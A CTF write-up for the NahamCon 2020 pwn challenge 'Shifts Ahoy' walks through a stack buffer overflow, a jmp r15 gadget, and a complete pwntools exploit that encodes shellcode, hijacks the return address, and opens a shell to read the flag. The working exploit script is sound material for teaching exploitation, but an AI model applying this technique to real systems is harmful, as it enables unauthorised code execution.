 # NahamCon CTF 2020

## Shifts Ahoy

> 100
>
> I created super advanced encryption software for us to communicate securely.
>
> Connect here:</br>
> `nc jh2i.com 50015`</br>
>
> [`shifts-ahoy`](shifts-ahoy)

Tags: _pwn_ _x86-64_ _shellcode_ _rop_ _bof_


## Summary

Buffer overflow to ROP your shellcode.  The ROP is tight, 7-bytes!


## Analysis

### Checksec

```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
```

Almost nothing.  Choose your own adventure.


### Decompile with Ghidra

```c
void encrypt(char *__block,int __edflag)

{
  size_t sVar1;
  undefined4 in_register_00000034;
  char local_58 [72];
  int local_10;
  int local_c;
  
  printf("Enter the message: ",CONCAT44(in_register_00000034,__edflag));
  fgets(local_58,0x60,stdin);
  sVar1 = strlen(local_58);
  local_c = (int)sVar1;
  if (0x40 < (int)sVar1) {
    local_c = 0x40;
  }
  local_10 = 0;
  while (local_10 < local_c) {
    local_58[local_10] = local_58[local_10] + '\r';
    local_10 = local_10 + 1;
  }
  printf("\nEncrypted Message: %s\n",local_58);
  return;
}
```

The `fgets` buffer overflow vulnerability is in the `encrypt` function, and there is just enough overflow to work with.  `local_58` is `0x58` bytes from the return address and `fgets` is only going to read `0x60` bytes.  That leaves 8 bytes (7 if you count that `fgets` will replace the last byte with `0x00`, fortunately it needs to be zero), just enough to overwrite the return address.

_But with what?_

Looking at the `encrypt` disassembly:

```
        004012e1 49 89 e7        MOV        R15,RSP
        004012e4 90              NOP
        004012e5 c9              LEAVE
        004012e6 c3              RET
```

Just before `encrypt` returns the stack pointer is copied (moved) to R15, which happens to have the address of `local_58` (check with GDB), so just send some shellcode and then `jmp r15`.  _Right?_

`jmp r15` check:

```python
>>> from pwn import *
>>> binary = ELF('shifts-ahoy')
[*] '/pwd/datajerk/nahamconctf2020/shifts/shifts-ahoy'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
>>> context.update(arch='amd64',os='linux')
>>> jmp_r15 = list(binary.search(asm('jmp r15')))[0]
>>> print("jmp r15",hex(jmp_r15))
jmp r15 0x4011cd
```

Good.

There's one last detail, the "encrypt" function, "encrypts" the first `0x40` bytes of our input to `fgets`, so we'll have to "decrypt" our payload so that when "encrypted" we get plaintext shellcode.


## Exploit

```python
#!/usr/bin/python3

from pwn import *

#p = process('./shifts-ahoy')
p = remote('jh2i.com', 50015)

p.sendlineafter('> ','1')
p.recvuntil('Enter the message: ')

binary = ELF('shifts-ahoy')
context.update(arch='amd64',os='linux')
shellcode = asm(shellcraft.sh())
jmp_r15 = list(binary.search(asm('jmp r15')))[0]
print("jmp r15",hex(jmp_r15))

payload = b''
for i in range(len(shellcode)):
    payload += bytes([(shellcode[i] - ord('\r')) & 0xff])

payload += (0x58 - len(payload)) * b'A'
payload += p64(jmp_r15)

p.sendline(payload)
p.interactive()
```

After obtinaing shellcode from pwntools and the address of `jmp r15`, the shellcode will need to be "decrypted", IOW, subtract `\r` from each byte since `encrypt` will just add it back, then pad out to `0x58` bytes (distance from return address), and set the return address to the address of `jmp r15`.

Output:

```
# ./exploit.py
[+] Opening connection to jh2i.com on port 50015: Done
[*] '/pwd/datajerk/nahamconctf2020/shifts/shifts-ahoy'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
jmp r15 0x4011cd
[*] Switching to interactive mode

Encrypted Message: jhH\xb8/bin///sPH\x89\xe7hri\x814$1\xf6V^H\xe6VH\x89\xe61\xd2j;X\x0fNNNNNNNNNNNNNNNNAAAAAAAA@
$ id
uid=1000(challenge) gid=1000(challenge) groups=1000(challenge)
$ ls
flag.txt
shifts-ahoy
$ cat flag.txt
flag{captain_of_the_rot13_ship}
```

So `\r` is the 13th ASCII character, _rot?_, anyway, done.